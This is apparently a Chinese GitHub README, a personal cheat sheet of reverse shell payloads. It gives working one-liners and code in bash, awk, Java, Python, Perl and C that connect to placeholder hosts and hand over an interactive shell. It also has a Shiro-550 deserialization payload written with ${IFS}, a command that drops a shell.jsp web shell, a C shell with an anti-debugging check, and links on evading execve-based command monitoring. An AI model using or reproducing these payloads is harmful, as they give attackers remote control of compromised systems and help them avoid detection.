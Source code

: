 # ReverseShell
自己经常使用的反弹shell命令
## bash
```
bash -c {echo,xxx}|{base64,-d}|{bash,-i}
bash -c "bash -i >& /dev/tcp/ip/port  0>&1"
bash -i 5<>/dev/tcp/host/port 0>&5 1>&5

awk 'BEGIN{s="/inet/tcp/0/ip/port";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
## java
```java
try{
    Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/2333;cat <&5 | while read line; do $line 2>&5 >&5; done"});
}catch (IOException e){
    try{
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
    }catch (IOException ee){
    }
}
```
### shiro 550
反弹shell
https://bkfish.gitee.io/2020/04/24/Apache-Shiro-1-2-4%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-4437%EF%BC%89%E5%A4%8D%E7%8E%B0%E9%81%87%E5%88%B0%E7%9A%84%E5%9D%91/


https://mp.weixin.qq.com/s/zCe_O37rdRqgN-Yvlq1FDg

```
cc2 
bash -c bash${IFS}-i${IFS}>&/dev/tcp/XXXXX/XX<&1

```
并且执行命令
https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html
```bash
sh -c $@ | sh . echo `echo shell>shell.jsp`
```

## python
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ip",4444))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
## perl
```
perl -e 'use Socket;$i="ip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## c
来自m3师傅
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>


#include <sys/ptrace.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <sys/socket.h>

__attribute__((constructor)) void debugCheck()
{
    if(ptrace(PTRACE_TRACEME,0,1,0) == -1)
    {
        printf("debug found");
        exit(0);
    }
}

int main(int argc,char** argv)
{
    int status;
    printf("Main Process:%d\n",getpid());

    if(fork() == 0)
    {
        printf("Child Process:%d\n",getpid());
        struct sockaddr_in addr;
        addr.sin_family = AF_INET;
        addr.sin_addr.s_addr = inet_addr("127.0.0.1");
        addr.sin_port = htons(2333);
        int fd = socket(AF_INET,SOCK_STREAM,0);
        if(!connect(fd,(const struct sockaddr *)&addr,sizeof(addr)))
        {
            printf("connect success\n");
        }
        
        dup2(fd,0); 
        dup2(fd,1); 
        dup2(fd,2); 
        char* argv[] = {"/bin/bash",NULL};
        execve("/bin/bash",argv,'\0'); 
    }
    pid_t child_pid = wait(&status);
    printf("Child PID:%d Terminate Status:%d\n",child_pid,WEXITSTATUS(status));

}
```

## 交互式
```
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```
[完全交互式Shell](https://www.jianshu.com/p/e7202cb2c3dd)


## 逃逸基于execve的命令监控的反弹shell

https://grugq.github.io/docs/ul_exec.txt

[无"命令"反弹shell-逃逸基于execve的命令监控(上)](https://mp.weixin.qq.com/s/rcPnXJrjcFeAWMnXsyJDPA)

[如何改变进程名称](https://mp.weixin.qq.com/s?__biz=MzkyMDIxMjE5MA==&mid=2247484350&idx=1&sn=14d5423fe226e9716eee2f4eaf58e62a&chksm=c197040ff6e08d19c5c2877775777054a7917db0e743c6abe1187782639e3cc3f20f02738b7d&mpshare=1&scene=23&srcid=0131L4KTJKxOsz0ATdwjU24c&sharer_sharetime=1643560116868&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

[反弹shell检测技术研究](https://l0n9w4y.cc/posts/19880/)

[恶意命令绕过与检测](https://l0n9w4y.cc/posts/18345/)

## 原理
+ [Reverse Shell 杂谈](https://mp.weixin.qq.com/s?__biz=MzA3MzU1MDQwOA==&mid=2247483909&idx=1&sn=6c7c89154552842ce27a871b7557ee0e&chksm=9f0c1d22a87b94340d71e77fe6c7c935eda1f83142faf7a43b32246b1826f8c3281fd75235e6&scene=178&cur_album_id=1465824885800009730#rd)
